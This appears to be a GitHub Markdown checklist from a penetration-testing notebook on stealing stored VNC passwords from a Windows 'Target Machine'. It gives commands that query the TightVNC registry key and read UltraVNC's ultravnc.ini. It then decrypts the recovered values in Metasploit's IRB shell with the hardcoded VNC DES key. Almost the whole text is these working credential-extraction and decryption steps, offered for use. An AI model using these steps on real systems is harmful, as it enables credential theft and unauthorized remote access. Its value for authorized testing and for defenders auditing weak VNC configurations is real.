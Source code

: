 # Extract the encrypted password
## TightVNC
- [ ] Extract the encrypted VNC password on the Target Machine
```
reg query HKLM\SOFTWARE\TightVNC\Server /s
```
- Value: Password or PasswordViewOnly
## UltraVNC
- [ ] Extract the encrypted VNC password on the Target Machine
```
type C:\Program Files\UltraVNC\ultravnc.ini
```
- Value: passwd or passwd2

# Crack encrypted VNC password

- [ ] Start Metasploit Framework on your Kali Machine
```
msfconsole
```

- [ ] Start the IRB shell on your Kali Machine
```
irb
```

- [ ] Use the VNC hardcoded DES key on your Kali Machine
```
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
```

- [ ] Decrypt the encrypted VNC password on your Kali Machine
```
Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
```

Reference:
https://github.com/frizb/PasswordDecrypts